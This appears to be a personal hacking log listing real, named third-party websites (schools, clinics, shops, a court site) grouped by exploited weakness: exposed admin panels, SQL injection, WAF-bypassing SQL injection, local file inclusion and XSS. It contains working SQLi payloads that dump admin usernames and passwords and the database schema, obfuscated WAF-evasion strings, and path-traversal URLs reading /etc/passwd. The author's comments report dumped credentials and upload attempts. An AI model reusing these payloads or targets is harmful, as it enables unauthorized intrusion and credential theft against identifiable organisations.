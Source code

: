 
# Admin panels:
 1. [http://med.nitc.ac.in/~user/google/superadminhome.php](http://med.nitc.ac.in/~user/google/superadminhome.php)
 2. [https://www.cbhedelhi.com/admin/center_add.php](https://www.cbhedelhi.com/admin/center_add.php)
 3. [http://www.technopk.com/adminIndex.php](http://www.technopk.com/adminIndex.php)
 4. [https://ccpindia.in/verification/AdminMain2.aspx](https://ccpindia.in/verification/AdminMain2.aspx)
 5. [https://www.sunclg.in/track/admin/entry.html](https://www.sunclg.in/track/admin/entry.html)
6. http://www.pcsamana.org.in/registration/admin.php
7. [http://sveg.ind.in/AdminPanel/](http://sveg.ind.in/AdminPanel/) (with noredirect from here on out)
8. [http://carboncalculator.americanpistachios.org/admin/home.php](http://carboncalculator.americanpistachios.org/admin/home.php)
9. [http://sailorsmedicalclinic.com/hms/admin/dashboard.php](http://sailorsmedicalclinic.com/hms/admin/dashboard.php)
10. https://bncindourdinara.org.in/admin/dashboard.php
11. http://www.teach11.move.pk/Admin/dashboard.php
12. https://www.sindhicollege.in/admin/dashboard.php
13. http://www.gpmau.in/gpmauadmin/admin/dashboard.php
14. https://www.computermindtech.co.in/cm_computer_admin/admin/dashboard.php (doesnt have a file uploader)
15. https://www.alternativemedicaluniversity.in/admin/dashboard.php (randomizes the uploaded file name in the backend and only accepts when theres a jpg extention at first)
16. https://www.vagoviaviaggi.it/admin/dashboard.php (filled with errors and its also french ig????????)
17. http://aksharinternationalschool.in/admin/dashboard.php (no permission to upload and also the news section is already "hacked" some goofy ass bd heckers ig)
18. https://kandistores.com/admin/home.php (uploaders are there but no permission smh)
19. https://dkonlineservices.com/admin/dashboard.aspx (through admin bypass)
# SQLi:
1. [http://www.jeevanscientific.com/newsdetails.php?id=9](http://www.jeevanscientific.com/newsdetails.php?id=9)
2. [http://www.embryohotel.com/room-detail.php?id=1](http://www.embryohotel.com/room-detail.php?id=1)
3. [https://www.pupilbooks.in/book/book.php?id=12&subject_id=28](https://www.pupilbooks.in/book/book.php?id=12&subject_id=28)
4. [https://www.bishopwalsh.edu.hk/gallery_detail.php?id=1](https://www.bishopwalsh.edu.hk/gallery_detail.php?id=1)
5. [http://www.alisan.com.hk/en/publications.php?id=19](http://www.alisan.com.hk/en/publications.php?id=19)
6. http://www.itopia.com.hk/eng/business.php?id=9 (admin, )
7. http://www.simscollege.ac.in/news.php?id=53
8. http://www.igoergo.com/_site/about.php?id=12
9. http://theory.cse.iitm.ac.in/viewevent.php?type=news&id=67
10. http://www.cr-led.com/product.php?id=77
11. https://www.af.org.pk/publication-detail.php?id=7
	- https://www.af.org.pk/publication-detail.php?id=-7'  Union Select 1,2,3,4,5,6,7,8,9,10,concat("username: ",username,"     password:  ",password),12,13 from admin-- -
12. https://www.kandistores.com/app/page.php?id=5 (database got dumped but cant concat the pass for some reason)
	 - https://www.kandistores.com/app/page.php?id=-5  Union Select 1,2,concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a20416c69204b68616e2028416b446b292044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r+1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number+1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/ --+
13. https://www.sin2maxindia.in/page.php?page=BlogDetails&id=3 (dumped but its encrypted smh)
	 - https://www.sin2maxindia.in/page.php?page=BlogDetails&id=-3'  Union Select 1,version(),(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a),4,5,6,7,8,9,10-- -
14. https://www.sftc.co.in/menu.php?cat_id=19 (dumped admin username and pass but pass doesnt seem to work for some reason aaaaaaaaaa)
	- https://www.sftc.co.in/menu.php?cat_id=-19'  Union Select 1,2,concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a20416c69204b68616e2028416b446b292044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/,4,5 -- -
	- https://www.sftc.co.in/menu.php?cat_id=-19'  Union Select 1,2,concat(username,"  ",password),4,5 from users-- -
15. 
# SQLi with WAF:
1. http://www.crammed.be/index.php?id=45&art_id=77
	- http://www.crammed.be/index.php?id=45&art_id=-77' /*!12345%55%6e%69%6f%6e*/ /*!50000S%65%6c%65ct*/ 1,2,3,4,5,6,concat(account_username,"=",account_password),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76 from afb_accounts-- -
2. http://www.chimin.cn/en/products-details.php?id=4&types=1
	- http://www.chimin.cn/en/products-details.php?id=4&types=-1 /*!50000Union*/ /*!50000Select*/ 1,2,/*!50000CONCAT*/(adminname,"=",adminpass),4,5,6,7,8,9,10,11,12 from kucom_admin--+-
3. https://www.supremecourt.gov.bd/web/indexn.php?page=officers_main.php&menu=11&div_id=1&lang=
	 -  https://www.supremecourt.gov.bd/web/indexn.php?page=officers_main.php&menu=11&div_id=-1' /*!50000Union*/ /*!50000Select*/ export_set(5,@:=0,(select+count(*)/*!50000from*/+/*!50000information_schema*/.columns+where@:=export_set(5,export_set(5,@,0x3c6c693e,/*!50000column_name*/,2),0x3a3a,/*!50000table_name*/,2)),@,2),2--+-&lang= 
# GET based LFI:
1. [https://www.edsonpolillo.com.br/index.php?emaildest=advogados%40edsonpolillo.com.br&redirecionar=index.php%3Fpagina%3Dobrigado_contato.php&pagina=///etc/passwd](https://www.edsonpolillo.com.br/index.php?emaildest=advogados%40edsonpolillo.com.br&redirecionar=index.php%3Fpagina%3Dobrigado_contato.php&pagina=///etc/passwd)
2. [https://massasadelina.com.br/index.php?pagina=///etc/passwd](https://massasadelina.com.br/index.php?pagina=///etc/passwd)
3. [https://www.kukiki.com.tw/index.php?page=../../../../../../../../../../../../etc/passwd](https://www.kukiki.com.tw/index.php?page=../../../../../../../../../../../../etc/passwd)
4. [https://fatsnail.tnbnb.com.tw/index.php?page=../../../../../../../../../../../../etc/passwd](https://fatsnail.tnbnb.com.tw/index.php?page=../../../../../../../../../../../../etc/passwd)
5. [https://handays888.com/index.php?page=../../../../../../../../../../../../etc/passwd](https://handays888.com/index.php?page=../../../../../../../../../../../../etc/passwd)
6. https://www.themindassociation.org/members/register/index.php?page=home.php
# XSS:
1. http://www.gpmau.in/gpmauadmin/admin/department.php (you can paste in html elements and shit in the input feild)
2. [http://sailorsmedicalclinic.com/hms/admin/manage-doctors.php](http://sailorsmedicalclinic.com/hms/admin/manage-doctors.php)
3. [https://www.alternativemedicaluniversity.in/admin/add-books.php](https://www.alternativemedicaluniversity.in/admin/add-books.php)
4. 